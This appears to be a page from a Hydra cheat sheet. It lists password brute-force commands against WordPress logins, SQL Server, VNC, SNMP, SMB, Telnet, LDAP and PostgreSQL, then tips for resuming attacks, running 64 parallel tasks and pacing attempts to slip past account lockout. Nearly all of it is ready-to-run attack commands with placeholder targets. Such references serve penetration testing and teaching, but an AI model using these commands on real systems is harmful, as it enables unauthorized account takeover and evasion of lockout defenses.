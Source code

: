 #### Brute-forcing Specific Services

1. **WordPress Login Bruteforce**: Targets the WordPress login page using a POST request.
    ```bash
    hydra -L <username_list> -P <password_list> http-post-form "wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid"
    ```
2. **Brute-forcing a SQL Server**: Targets Microsoft SQL Server for brute-forcing.
    ```bash
    hydra -l <username> -P <password_list> mssql://<target_ip>
    ```
3. **VNC Bruteforce Attack**: Targets a VNC server on the default port (5900) for brute-forcing.
    ```bash
    hydra -P <password_list> vnc://<target_ip> -s 5900
    ```
4. **Brute-forcing an SNMP Community String**: Targets the SNMP service to brute-force the community string.
    ```bash
    hydra -P <password_list> snmp://<target_ip> -vV
    ```
5. **SMB Bruteforce Attack**: Performs a brute-force attack against SMB services on the target.
    ```bash
    hydra -L <username_list> -P <password_list> smb://<target_ip>
    ```
6. **Telnet Bruteforce Attack**: Targets the Telnet service for brute-forcing.
    ```bash
    hydra -l <username> -P <password_list> telnet://<target_ip>
    ```
7. **LDAP Bruteforce Attack**: Performs a brute-force attack against LDAP services.
    ```bash
    hydra -L <username_list> -P <password_list> ldap://<target_ip>
    ```
8. **PostgreSQL Bruteforce Attack**: Targets PostgreSQL databases for brute-forcing.
    ```bash
    hydra -l <username> -P <password_list> postgres://<target_ip>
    ```

#### Optimizing Brute-force Attacks

1. **Resume a Previous Attack Session**: Resumes an attack from the last saved session, useful for long-running brute-force attempts.
    ```bash
    hydra -R
    ```
2. **Output Results in a Specific Format**: Saves the output in JSON format for easy parsing and further analysis.
    ```bash
    hydra -l <username> -P <password_list> -o results.txt -b json ssh://<target_ip>
    ```
3. **Avoid Lockouts by Limiting Attempts**: Limits the number of failed attempts per user to avoid account lockout mechanisms.
    ```bash
    hydra -l <username> -P <password_list> -t 4 -W 3 -s <target_port> ssh://<target_ip>
    ```
4. **Speed Optimization with Parallel Tasks**: Maximizes the attack speed by using 64 parallel tasks, suitable for high-performance targets.
    ```bash
    hydra -l <username> -P <password_list> -t 64 ssh://<target_ip>
    ```
5. **Using Password Masking to Reduce Attack Surface**: Uses password masking to generate passwords within a specific character set and length, reducing the attack surface.
    ```bash
    hydra -l <username> -x 6:8:aA1 -P <password_list> ssh://<target_ip>
    ```